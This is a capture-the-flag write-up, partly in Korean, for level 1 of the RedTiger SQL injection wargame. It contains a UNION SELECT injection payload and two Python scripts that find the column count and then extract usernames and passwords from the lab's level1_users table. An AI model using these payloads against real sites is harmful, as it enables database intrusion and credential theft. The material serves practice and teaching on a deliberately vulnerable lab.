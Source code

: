 ================================================================================================================
[redtiger] level1
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9;
        }
        step0 -> step1[label="post_data: {cat=1 union select %s from level1_users}",arrowhead="normal"];
        step3 -> step2[label="Column Length",arrowhead="normal"];
        step4 -> step5[label="post_data: {cat=1 union select 1,2,username,password from level1_users}",arrowhead="normal"];
        step7 -> step6[label="Data Extract",arrowhead="normal"];
    }

|

취약점 존재 여부 확인
================================================================================================================

- GET 페이지 취약점
- GET 파라미터: cat
- MySQL, Union Select Injection
- 테이블명: level1_users


.. code-block:: html

    <br>Category: <a href="?cat=1">1</a>
    This category does not exist! 
    <form method="post">
    Username: <input type="text" name="user">
    Password: <input type="text" name="password">
    <input type="submit" name="login" value="Login">
    </form>
    

|

Column Length
================================================================================================================

- 컬럼 개수 확인

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    n = 0
    ret = ''
    for l in range(20):
        params = {
            "cat": "1 union select %s from level1_users" % str(n)
        }
        print params.values()[0]
        n = str(n) + "," + str(l+1)
        r = requests.get(url, params=params, verify=False)
        print r.content

|

Data Extract
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level1.php"

    params = {
        "cat": "1 union select 1,2,username,password from level1_users"
    }

    r = requests.get(url, params=params, verify=False)
    print r.content

|